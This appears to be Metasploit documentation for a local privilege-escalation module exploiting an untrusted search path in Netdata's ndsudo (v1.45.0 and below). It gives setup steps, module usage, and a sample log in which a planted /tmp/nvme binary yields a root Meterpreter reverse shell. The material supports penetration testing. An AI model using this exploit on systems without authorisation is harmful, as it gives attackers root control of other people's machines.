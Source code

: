## Vulnerable Application

The `ndsudo` is a tool shipped with Netdata Agent. Versions v1.45.0 and below contain a vulnerability, which allows an attacker to gain privilege escalation using the `ndsudo` binary. The vulnerability is an untrusted search path. When searching for additional binary files, such as `nvme`, an attacker can create a malicious binary with same name and add the directory of this binary into the `$PATH` variable. The `ndsudo` will trust the first occurrence of this binary and execute it.

Installation steps:

1. `sudo apt  install cmake libelf-dev git bison flex build-essential libssl-dev libsystem-dev liblz4-dev libzstd-dev libbrotli-dev uuid-dev libuv1-dev`
1. `wget https://github.com/netdata/netdata-nightlies/releases/download/v1.45.0-8-nightly/netdata-latest.tar.gz`
1. `gunzip netdata-latest.tar.gz`
1. `tar -xf netdata-latest.tar`
1. `cd netdata-v1.45.0-8-g5803c7766/`
1. `sudo ./netdata-installer.sh`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Receive a session
1. Do: `use exploit/linux/local/ndsudo_cve_2024_32019`
1. Do: `set session [session number]`
1. Do: `run`
1. Get root shell/meterpreter session

## Options


### WritableDir

A path where malicious `nvme` binary will be stored. This path will be later prepended to `$PATH` variable to achieve privilege escalation.

### NdsudoPath

The path to the `ndsudo` binary.


## Scenarios

```
msf exploit(linux/local/ndsudo_cve_2024_32019) > run verbose=true
[*] Started reverse TCP handler on 192.168.3.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable binary detected
[*] Creating malicious file at /tmp/nvme
[*] Writing '/tmp/nvme' (250 bytes) ...
[*] Executing..
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3090404 bytes) to 10.5.134.200
[+] Deleted /tmp/nvme
[*] Meterpreter session 3 opened (192.168.3.7:4444 -> 10.5.134.200:53172) at 2025-08-11 11:05:24 +0200

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 10.5.134.200
OS           : Ubuntu 20.04 (Linux 5.13.0-1021-oem)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
